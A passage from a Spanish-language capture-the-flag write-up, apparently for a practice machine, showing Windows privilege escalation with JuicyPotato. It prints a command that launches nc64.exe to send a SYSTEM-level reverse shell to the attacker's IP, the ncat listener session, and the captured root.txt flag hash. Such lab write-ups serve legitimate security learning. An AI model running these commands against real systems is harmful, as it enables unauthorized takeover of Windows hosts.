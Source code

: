```cmd
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user

C:\Windows\Temp\Privesc>
```

Procedemos a ejecutarlo con los parametros necesarios:

* Con `-t` que es para crear un proceso vamos a usar `*` para usar las dos opciones
* Con `-l` un puerto (puede ser el que quieras)
* Con `-p` vamos a ejecutar un programa, que en nuestro caso sera la `cmd.exe` para atraves de ella ejecutar un comando privilegiado
* Con `-a` le pasaremos el argumentos, donde le pasaremos la ruta donde recide el `nc64.exe` para enviarnos una consola interactiva


Nos ponemos en escucha en nuestro equipo y proseguimos a ejecutarlo, si vemos que no nos hace nada, hay que ejecutarlo varias veces.

```cmd
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc64.exe -e cmd 10.10.16.8 443"
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc64.exe -e cmd 10.10.16.8 443"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\PRIVESC>
```

Y recibimos la conexión

```bash
❯ rlwrap ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.11.
Ncat: Connection from 10.10.10.11:49816.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
nt authority\system
```

Lo unico que nos queda por hacer es dirigirnos al directorio personal del usuario `administrator` y visualizamos la segunda flag `root.txt` :)

```cmd
cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

type root.txt
type root.txt
4804d15552ecad867e5f3b60985e1d34

C:\Users\Administrator\Desktop>
```
